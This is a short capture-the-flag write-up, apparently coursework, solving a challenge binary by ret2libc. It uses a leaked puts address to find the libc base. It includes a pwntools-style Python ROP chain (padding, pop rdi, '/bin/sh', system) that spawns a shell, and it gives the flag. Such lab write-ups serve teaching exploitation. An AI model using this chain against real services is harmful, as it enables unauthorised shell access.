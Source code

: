 # bin2:Solution

The first thing that you see when you run this binary is:
```
Welcome to the challenge
The address of puts: 0x40008c7820
Provide some input >>>
```

It gives you the location of puts at run time. This challenge was given with a libc version for us to use as well. Using this library we can locate the base address of libc and use that in the exploit.

We just need to overflow the buffer
```
0040115a  4883ec40           sub     rsp, 64
```


Add 16 bytes of padding and align the stack. Find a pop rdi gadget to clear out rdi and add a bin/sh into it. Then call system and send the chain to get a shell.
```
chain = cyclic(72)
chain += p64(offset + r.find_gadget(['ret'])[0])
chain += p64(offset + r.find_gadget(['pop rdi','ret'])[0])
chain += p64(offset + next(libc.search(b'/bin/sh')))
chain += p64(offset + libc.sym['system'])

p.recvuntil(b'input >>> ')
p.sendline(chain)
p.interactive()
```

Run the python program and get the flag!
```
flag{will_b3_an_aw3s0m3_big_adv3ntur3}
```

Resources:
* the [ret2libc](https://github.com/kourtnee/VR_HW/tree/main/ret2libc) lab
* my own [challenge](https://github.com/kourtnee/VR_HW/tree/main/Midterm/bin3)
* Alex and Louie (from their help in the original ret2libc lab)
